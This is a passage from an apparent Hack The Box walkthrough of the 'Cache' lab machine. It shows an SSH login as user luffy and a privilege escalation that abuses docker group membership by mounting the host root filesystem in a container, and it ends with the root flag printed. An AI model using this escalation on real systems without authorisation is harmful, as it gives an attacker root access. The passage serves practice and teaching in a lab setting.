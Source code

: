 I can see as `luffy` now:

```
snowscan@kali:~/htb/cache$ ssh luffy@10.10.10.188
luffy@10.10.10.188's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-99-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun May 10 13:53:17 UTC 2020

  System load:  0.13              Processes:              196
  Usage of /:   74.5% of 8.06GB   Users logged in:        1
  Memory usage: 21%               IP address for ens160:  10.10.10.188
  Swap usage:   0%                IP address for docker0: 172.17.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

107 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun May 10 13:49:37 2020 from 10.10.14.52
luffy@cache:~$
```

## Privesc

Luffy is a member of the `docker` group so he can start new containers.

```
luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

There's already a ubuntu image on the box so I don't even to upload my own.

```
luffy@cache:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB
```

I can launch the container and mount the root filesystem inside of `/mnt/pwn` and read the root.txt flag.

```
luffy@cache:~$ docker run -v /:/mnt/pwn -ti ubuntu
root@6c8efcc60a41:/# cd /mnt/pwn/root
root@6c8efcc60a41:/mnt/pwn/root# ls
root.txt
root@6c8efcc60a41:/mnt/pwn/root# cat root.txt
61673a57f540ad2350f46e78e6c4b8a1
```
